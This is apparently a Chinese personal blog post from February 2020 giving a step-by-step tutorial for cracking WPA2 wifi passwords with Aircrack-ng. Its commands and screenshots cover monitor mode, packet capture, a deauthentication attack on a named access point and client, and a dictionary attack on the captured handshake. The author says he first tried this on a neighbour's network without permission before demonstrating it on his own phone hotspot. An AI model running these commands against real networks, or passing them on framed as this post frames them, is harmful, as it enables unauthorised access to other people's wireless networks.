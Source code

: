 ```yaml
---
title: 使用Aircrack-ng破解WPA2加密的wifi密码
date: 2020-02-11 18:59:04
tags: [linux]
---
```


## 写在前面
现在是 2020 年 2 月 11 日，正是武汉病毒的爆发期间，全面禁止出门
今天才 11 号，手机流量早已经限速，完全没法使用了，我可以不出门，但不能没有网
所以，打算破解看看邻居家的 wifi 密码，可惜邻居家的 wifi 密码太复杂，使用我的密码字典没有跑出来
但是方法是没问题的，下面就以我自己手机开出的热点为目标 wifi 来攻击一下，记录一下这个过程

## 开工
打开一篇以前收藏的[文章](https://www.cnblogs.com/york-hust/archive/2012/07/07/2580340.html)

### 更新 Aircrack-ng
```
airodump-ng-oui-update
```

### 打开无线网卡
```
sudo ifconfig wlp3s0 up
```

### 激活无线网卡为监听模式
```
sudo airmon-ng start wlp3s0
```

### 探测无线网络，抓取无线数据包
```
sudo airodump-ng wlp3s0mon
```

探测结果大概是这样的
![](https://static.ifthat.com/public/data/51eaa6989f2bacea-2020-02-11_18-02.png)
找到目标 wifi 的chanal，这里我破解的是 honor 7X， ch 为 11  
![](https://static.ifthat.com/public/data/be6de0a4075ca775-2020-02-11_18-11.png)
```
sudo airodump-ng -c 11 -w longas wlp3s0mon
```
-c channel 
-w 保存文文件的前缀

### 找到 两台正在使用的 MAC

![](https://static.ifthat.com/public/data/6ea0d974ded680e1-2020-02-11_18-14.png)
执行上面命令的终端不要关，下面另开一个终端

### 攻击
```
sudo aireplay-ng -0 5 -a F0:0F:EC:6E:A8:AB -c 4C:6B:E8:B2:50:4C wlp3s0mon
```
-a 目标mac 
-c 客户端mac

刚才那个 终端出现这样的提示表示攻击成功,可以关闭这个终端了
![](https://static.ifthat.com/public/data/3534a3929bff257d-2020-02-11_18-21.png)
当前文件夹会出现这个文件
![](https://static.ifthat.com/public/data/d2abef363c1a50ab-2020-02-11_18-21_1.png)

### 使用字典破解
```
sudo aircrack-ng -w /mnt/windows-source/Data/破解字典/弱口令集/wordlist.txt longas-01.cap
```
-w 字典文件
![](https://static.ifthat.com/public/data/1784f82430b9c5eb-2020-02-11_18-23.png)
这里选择4

### 破解成功

![](https://static.ifthat.com/public/data/c9f6b9d8a0df4f98-2020-02-11_18-24_1.png)

### 最后停止无线网卡监听
```
sudo airmon-ng stop wlp3s0mon
```

## 参考资源
https://www.cnblogs.com/york-hust/archive/2012/07/07/2580340.html
